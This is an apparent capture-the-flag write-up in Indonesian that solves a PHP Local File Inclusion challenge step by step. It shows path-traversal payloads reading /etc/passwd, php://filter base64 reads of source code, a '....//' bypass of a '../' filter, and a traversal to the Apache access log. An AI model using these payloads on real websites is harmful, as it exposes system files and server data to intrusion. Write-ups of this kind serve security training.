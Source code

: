 - Mengakses website yang diberikan, lalu dengan jelas diberikan fitur untuk melihat foto binatang dengan php include.

- Karena sudah jelas bahwa bisa dieksploitasi menggunakan Local File Inclusion, maka langsung saja kita masukan payload basic:
  ```
  ../../../../../../etc/passwd
  ```
- User akan mendapatkan pesan "Sorry, only dog, fox, and cat are allowed.". Karena kita hanya boleh melihat foto binatang-binatang tersebut saja.
- User mem-bypass proteksi tersebut dengan memasukkan payload:
  ```
  Contoh: 
  dog/../../../etc/passwd
  ```
- User menyadari pesan error:
  ```
  Warning: include(dog/etc/passwd.php): failed to open stream: No such file or directory in C:\xampp\htdocs\index.php on line 166
  ```
- Karena sudah tahu bahwa extensionnya akan selalu berakhiran .php, maka User akan mencoba menggunakan PHP Filter dengan payload:
  ```
  php://filter/convert.base64-encode/resource=dog/../index
  ```
- User menyadari kembali jika string "../" akan dihilangkan. Maka dengan mudah User akan mem-bypassnya menggunakan payload:
  ```
  php://filter/convert.base64-encode/resource=dog/....//index
  ```
- User mendapatkan source-code index.php tetapi dengan representasi base64. User mendecodenya (jika perlu) untuk mencari hint selanjutnya. Hint selanjutnya berada pada file dog.php, maka User menggunakan payload tadi untuk mendapatkan source codenya.
  ```
  Payload:
  php://filter/convert.base64-encode/resource=dog
  
  Hasil:
  <?php  
  $flag = "Nice, the flag is behind that LOG";
  ?>
  <img width="460" height="460" class="center" src="dogs/<?php echo rand(1, 5); ?>.png" />
  ```
- User melihat hint tersebut dan tahu bahwa User harus mengakses log. User mengakses apache log dengan menggunakan payload:
  ```
  dog/....//....//....//....//....//....//....//....//....//....//....//....//var/log/apache2/access.log
  ```
- User melihat bahwa "bot" mengakses halaman "ini_flagnya_beneran_ga_bohongxixixi.html".
- User mengkases halaman tersebut pada website dan mendapatkan flagnya!
